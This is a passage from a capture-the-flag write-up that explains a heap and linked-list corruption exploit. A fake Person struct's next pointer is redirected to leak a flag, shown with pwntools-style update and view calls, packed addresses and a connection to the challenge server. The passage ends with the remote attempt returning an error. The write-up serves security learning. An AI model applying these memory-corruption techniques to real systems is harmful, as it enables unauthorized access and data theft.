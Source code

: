 This means the program will now treat `0x4d2e00` as if it were another valid `Person`.
Inside that fake `Person`, the field we actually control is its **own `next` pointer**, which sits at:

```
&root->next->next = 0x4d2e20
```

Conveniently, this region overlaps with the buffer belonging to the **second-last allocated chunk** (index 1). This means that by updating the name of index 1, we are not just changing a string — we are actually writing into the memory that will later be interpreted as the `next` pointer of our fake `Person`.

```python
update(1, 2, p64(0x00) + p64(0x49b21e - 0x08))
update(0, 2, b"B"*0x18)
```

This lets us **redirect the traversal** to any arbitrary address (in our case, the `&FLAG`).
The corrupted linked list looks something like this:

```
root ──► Person #2 (idx 0)
          next ──► Fake Person (0x4d2e00)
                          next ──► &FLAG-0x8
                                        name ──► "fakectf{not the real flag}"
```

So when we finally call `view(2, 2)`, the program walks the linked list into our crafted fake struct, reads the `next` pointer that we set to `FLAG-0x8`, and treats it as though it were the `name` of a real `Person`. The view routine happily prints it out, and that’s how the flag leaks.

```python
update(1, 2, p64(0) + p64(0x49b21e-0x8))
update(0, 2, b"B"*24)
print(view(2, 2))
```

![](https://github.com/user-attachments/assets/f3cda9d0-f925-42fd-9aab-9617d247ca89)


With the local exploit working, the next step was to run it against the challenge server:

```python
io = remote("challs.watctf.org", 5151)

for i in range(10):
   add(12, b"A"*8)

update(1, 2, p64(0) + p64(0x49b21e-0x8))
update(0, 2, b"B"*24)
print(view(2, 2))
```

But instead of a flag, I got an error:

![](https://github.com/user-attachments/assets/7e7cdfa1-5c4b-4770-8755-4a7d292bee3f)
